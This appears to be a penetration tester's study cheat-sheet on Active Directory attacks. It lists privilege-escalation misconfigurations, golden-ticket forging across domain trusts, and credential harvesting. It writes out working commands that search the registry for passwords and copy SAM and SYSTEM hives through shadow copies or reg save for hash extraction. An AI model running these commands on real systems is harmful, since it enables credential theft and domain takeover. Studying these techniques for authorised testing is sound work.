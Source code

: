 # Miscellaneous Misconfigurations
- Exchange Related Group Membership
	- https://github.com/gdedrouas/Exchange-AD-Privesc
- PrivExchange
- Printer Bug
- MS14-068
- IPv6 Bug (CVE-2024-38063)
- Sniffing LDAP Credentials
- Enumerating DNS Records
- PASSWD_NOTREQD
	- [[PowerView]]
- Group Policy Preferences Passwords
- ASREP Roasting
	- [[Rubeus]]
- GPO Abuse

# Domain Trusts
- [[BloodHound]]
- [[Impacket]]
- [[Rubeus]]
- [[Mimikatz]]

If a domain is a child of another domain or forest, you can use default directional trusts to forge a golden ticket. Since the Administrator of the DC of the child domain by default has administrative privileges over the parent domain, we can compromise the entire enterprise with DA on the child domain. 

# Credential Harvesting
- Keylogging
	- [[Meterpreter]]
- Cleartext Credentials
	- Command history
	- Config files
	- Backup files
	- Shared files
	- Registry
		- `reg query <HKLM/HKCU> /f password /t REG_SZ /s
	- Source code
- SAM
	- [[Meterpreter]] hashdump 
	- Volume Shadow Copy
```powershell
wmic shadowcopy call create C:\
vssadmin list shadows

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
- Registry Hives
```powershell
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
# From here you can use impacket-secretsDump to read the hashes out. 
```
- LSASS
[[Mimikatz]] can dump and unprotect LSASS using sekurlsa and mimidrv.sys. 
